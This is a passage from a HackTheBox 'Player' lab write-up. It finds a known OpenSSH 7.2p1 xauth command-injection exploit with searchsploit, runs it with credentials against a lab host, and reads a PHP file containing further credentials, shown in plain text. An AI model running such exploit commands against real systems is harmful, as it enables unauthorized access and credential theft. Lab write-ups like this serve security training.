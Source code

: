 In this OpenSSH version we have an RCE with credentials we can use:

```console
$ searchsploit openssh 7.2
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                             | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                            | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                    | multiple/remote/39569.py
```

Using it:

```console
$ python2 39569.py 10.10.10.145 6686 telgen 'd-bC|jC!2uepS/w'

INFO:__main__:connected!
INFO:__main__:
Available commands:
    .info
    .readfile 
    .writefile  
    .exit .quit
#> .readfile /var/www/staging/fix.php
DEBUG:__main__:auth_cookie: 'xxxx\nsource /var/www/staging/fix.php\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:if(!$username){
$username
$password
}
//modified
//for
//fix
//peter
//CQXpm\z)G5D#%S$y=
}
```

With the new pair of credentials `peter:CQXpm\z)G5D#%S$y=` we can login in the **dev** subdomain. Here, we will create a new **Project**:

![Untitled](/assets/img/hackthebox/labs/player/Untitled%209.png)
